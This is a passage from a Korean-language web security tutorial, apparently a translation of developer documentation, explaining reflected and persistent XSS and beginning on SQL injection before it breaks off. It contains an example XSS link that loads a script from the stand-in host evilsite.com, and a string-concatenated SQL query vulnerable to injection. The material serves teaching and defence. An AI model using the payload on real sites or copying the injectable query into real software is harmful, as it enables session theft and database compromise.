 XSS 취약점은 사이트가 삽입된 스크립트를 브라우저에 반환하는 방식에 따라 *반사형(reflected)* 과 *지속형(persistent)* 으로 나뉜다.

#### 반사형 XSS 취약점 (reflected XSS vulnerability)

반사형 XSS 취약점은 서버에 전달된 사용자 콘텐츠가 *즉시* 반환되어, *수정되지 않은* 상태로 브라우저에 표시될 때 발생한다. 새로운 페이지가 로드되면 기존 사용자 콘텐츠 안의 모든 스크립트가 (어떤 것이더라도) 실행된다.

예를 들어, 검색하는 단어가 URL 매개 변수로 인코딩되어 결과와 함께 표시되는 사이트 검색 함수를 생각해보자.

* 공격자는 악성 스크립트를 매개 변수로 포함하는 검색 링크(e.g. `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`)를 만들어 이를 다른 사용자에게 메일로 보낼 수 있다.
* 만약 다른 목표 사용자가 이 "흥미로운 링크"를 클릭하면 검색 결과가 표시될 때 스크립트가 실행된다.
* 앞서 말한 것처럼, 위의 행동은 목표 사용자인 척 사이트에 접속(enter)하는데 필요한 모든 정보를 공격자에게 제공하고 잠재적으로는 해당 사용자로서 물건을 구매하거나 연락처 정보를 공유할 수도 있다.

#### 지속형 XSS 취약점 (persistent XSS vulnerability)

지속형 XSS 취약점은 웹 사이트 안에 악성 스크립트가 *저장*되어 이후에 다른 사용자가 자신도 모르게 스크립트를 실행하도록 수정되지 않은 상태로 다시 표시된다.

예를 들어,

* 수정되지 않은 HTML을 포함하는 댓글(comments)을 받아들이는 토론 게시판은 공격자의 악성 스크립트도 저장할 수 있다.
* 댓글이 게시되면 스크립트가 실행되고 공격자에게 사용자의 계정에 접근하는데 필요한 정보를 보낼 수 있다.

이런 종류의 공격은 공격자가 피해자들과 직접적인 연관 자체가 없어서 매우 흔하고(popular) 강력하다.

`POST`나 `GET` 요청의 데이터가 XSS 취약점의 가장 흔한 소스이기 때문에 브라우저에서 렌더링 되는 쿠키 데이터나 업로드되어 표시되는 사용자 파일 등 브라우저로부터 오는 정보는 어떤 것이든 잠재적으로 취약하다.

XSS 취약점을 가장 효과적(best)으로 막을 방법은 코드를 실행하는 명령을 잠재적으로 포함할 수 있는 마크업을 제거하거나 비활성화하는 것이다.

* HTML의 경우 `<script>`, `<object>`, `<embed>`, `<link>` 등과 같은 요소가 해당한다.

스크립트를 실행하는 데 사용하거나 서버 코드의 실행에 영향을 주지 못하게 사용자의 데이터를 수정하는 과정을 입력 검사(input sanitization, 의역)라고 한다. 많은 웹 프레임워크는 기본적으로 HTML 양식의 사용자 입력을 자동으로 검사(sanitize)한다.

### SQL 삽입 (SQL injection)

SQL 삽입 취약점은 악성 사용자가 데이터베이스에서 임의의 SQL 코드를 실행하고 사용자의 허가 없이 데이터에 접근해 이를 수정, 삭제할 수 있도록 한다.

공격에 성공하면 공격자는 아이디를 스푸핑(spoof) 하거나, 관리자 권한으로 새로운 아이디를 만들거나, 서버의 모든 데이터에 접근하거나 모든 데이터를 파괴/수정해 사용하지 못하게 할 수 있다.

SQL 삽입의 유형에는

* 오류 기반 SQL 삽입 (Error-based SQL injection)
* 부울 오류 기반 SQL 삽입 (SQL injection based on boolean errors)
* 시간 기반 SQL 삽입 (Time-based SQL injection) 이 있다(모두 의역).

이런 취약점은 기존 SQL 문(statement)에 전달된 사용자 입력이 문의 의미를 바꿀 수 있을 때 발생한다.

예를 들어, 아래의 코드는 HTML 양식에서 제공된 특정 이름(`userName`)으로 모든 사용자를 나열하기 위한 것이다.

```sql
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```

사용자가 실제 이름을 지정하면 문은 의도된 대로 실행된다. 그러나 악성 사용자는 `userName`에 굵게 텍스트를 지정해 이 SQL 문의 동작을 다음 예시의 새로운 문으로 완전히 바꿀 수 있다.
